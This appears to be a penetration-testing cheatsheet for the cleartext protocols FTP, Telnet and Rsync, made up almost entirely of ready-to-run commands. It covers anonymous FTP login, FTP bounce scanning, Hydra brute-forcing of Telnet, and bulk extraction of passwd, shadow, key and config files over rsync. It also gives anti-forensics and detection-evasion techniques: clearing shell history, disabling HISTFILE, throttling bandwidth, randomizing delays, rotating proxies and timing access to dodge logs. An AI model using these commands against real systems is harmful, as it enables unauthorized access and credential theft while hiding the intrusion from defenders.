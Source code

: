 # Cleartext Protocols Cheatsheet

## FTP

### Service Discovery & Banner Grabbing
* Basic FTP connection: `ftp <target_ip>`
* Netcat banner grab: `echo "QUIT" \| nc <target_ip> 21`
* Nmap service detection: `nmap -sV -p 21 <target_ip>`
* Nmap with FTP-specific scripts: `nmap --script ftp-anon,ftp-bounce,ftp-brute,ftp-proftpd-backdoor,ftp-vsftpd-backdoor -p 21 <target_ip>`

### Anonymous Access
* Username: `anonymous`
* Password: `anonymous@example.com` / (blank)

### FTP Bounce Scanning
* Use FTP server as proxy for port scanning: `nmap -b anonymous:anonymous@<ftp_server> <internal_target>`

### Data Exfiltration
* Bulk recursive download: `wget -r ftp://anonymous:anonymous@<target_ip>`
* Advanced FTP client: `lftp ftp://anonymous:anonymous@<target_ip>` → `mirror <remote_path> <local_path>`

## Telnet

### Service Discovery
* Basic Telnet connection: `telnet <target_ip> 23`
* Nmap service detection: `nmap -sV -p 23 <target_ip>`
* Nmap with Telnet-specific scripts: `nmap --script telnet-brute,telnet-encryption,telnet-ntlm-info -p 23 <target_ip>`

### Port Scanning
* Scan common Telnet ports: `nmap -p 23,2223,2322,2323,8023,9999,10001 <target_ip>`
* Service detection on multiple ports: `nmap -sV -p 23,2223,2322,2323,8023,9999,10001 <target_ip>`

### Hydra
* Hydra brute force: `hydra -L usernames.txt -P passwords.txt telnet://<target_ip> -vV -t4 -I`

### Initial Reconnaissance Commands

### Session Enumeration

| Command | Description |
|---------|-------------|
| `who` | Currently logged-in users |
| `w` | System users and their processes |
| `last` | Recent login/logout history |
| `users` | List of current usernames |
| `tty` | Current terminal name |
| `ps -t $(tty)` | Processes running on current terminal |

### Session Cleanup

| Command | Description |
|---------|-------------|
| `history -c` | Clear command history |
| `unset HISTFILE` | Disable history logging |
| `rm ~/.bash_history 2>/dev/null` | Remove history file |
| `unalias ls 2>/dev/null` | Remove command aliases |

## Rsync

### Service Discovery
* Basic Rsync service test and module listing: `rsync <target_ip>::`
* Explicit module listing: `rsync --list-only <target_ip>`
* Scan common Rsync ports: `nmap -p 873,8873,9873 <target_ip>`
* Service detection: `nmap -sV -p 873 <target_ip>`

### Module Enumeration
* Detailed module information: `rsync -av --list-only <target_ip>::<module_name>`
* Test common modules: `for module in backup home www data etc opt var; do echo "Testing module: $module"; rsync --list-only <target_ip>::$module 2>/dev/null; done`

### File Type Hunting
* Search for specific valuable file types: `rsync -avz --list-only <target_ip>::<module>/ \| grep -E '\.(conf\|cfg\|ini\|bak\|sql\|log)$'`

### Data Extraction
* Complete module mirror: `rsync -avz <target_ip>::<module>/ ./rsync_dump/`
* Selective file extraction: `rsync -avz --include="*.conf" --include="*.cfg" --exclude="*" <target_ip>::<module>/ ./configs/`
* Bandwidth-limited extraction: `rsync -avz --bwlimit=100 <target_ip>::<module>/ ./slow_dump/`

### High-Value File Extraction
```bash
rsync -avz --include="*passwd*" --include="*shadow*" --include="*config*" \
--include="*.conf" --include="*.cfg" --include="*.ini" \
--include="*.bak" --include="*.sql" --include="*.key" \
--include="*.pem" --exclude="*" <target_ip>::<module>/ ./intel/
```

### Write Access Testing
1. Create test file: `echo "rsync_test_$(date)" > test_file.txt`
2. Attempt upload: `rsync -avz test_file.txt <target_ip>::<module>`
3. Verify upload: `rsync --list-only <target_ip>::<module>/ \| grep test_file.txt`

## Detection Evasion & Operational Security

### Traffic Obfuscation

| Technique | Command Example |
|-----------|-----------------|
| Bandwidth limiting | `rsync -avz --bwlimit=50 --delay-updates <target>::<module>/ ./stealth_dump` |
| Randomized delays | `sleep $((RANDOM % 300 + 60))` (1-6 minute random delay) |

### Log Evasion

| Protocol | Evasion Technique |
|----------|-------------------|
| FTP | Use realistic email addresses for anonymous login |
| Telnet | Clear command history before disconnect |
| Rsync | Use bandwidth limiting to appear as legitimate sync |

### Common Log Entries to Avoid

| Protocol | Suspicious Pattern | Mitigation |
|----------|-------------------|------------|
| FTP | Multiple failed login attempts | Use valid credentials or space out attempts |
| FTP | Bulk file downloads | Limit bandwidth and randomize timing |
| Telnet | Administrative commands from unknown IPs | Use VPN/proxy rotation |
| Telnet | History of reconnaissance commands | Clear history before disconnect |
| Rsync | Large data transfers | Use bandwidth limiting |
| Rsync | Access to sensitive modules | Access during high-traffic periods |

## Common Service Implementations

### FTP Implementations

| Implementation | Typical Banner |
|----------------|----------------|
| vsftpd | `220 (vsFTPd 3.0.3)` |
| ProFTPD | `220 ProFTPD Server` |
| Pure-FTPd | `220 Pure-FTPd Server` |
| FileZilla Server | `220-FileZilla Server` |
| Microsoft IIS | `220 Microsoft FTP Service` |

### Telnet Implementations

| Implementation | Typical Identifier |
|----------------|-------------------|
| Linux telnetd | `Debian GNU/Linux` or similar OS banner |
| Windows Telnet Server | `Welcome to Microsoft Telnet Server` |
| Cisco IOS | `User Access Verification` |
| BusyBox | `Welcome to ... (built-in shell)` |

Reach out: https://linktr.ee/january1073

